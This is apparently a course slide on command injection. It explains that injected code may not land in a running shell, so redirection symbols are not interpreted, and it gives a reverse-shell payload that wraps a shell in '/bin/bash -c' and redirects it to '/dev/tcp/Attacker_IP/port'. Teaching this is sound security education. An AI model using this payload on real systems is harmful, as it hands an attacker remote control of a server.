

# Redirecting I/O to TCP Connection
How about server does not run a shell?
When we inject our code during an attack, our code may not be injected into a running shell program on the server, so the redirection symbols in the command string cannot be interpreted. Inject
/bin/bash -c “/bin/any_shell -i >/dev/tcp/Attacker_IP/port 0<&1 2>&1”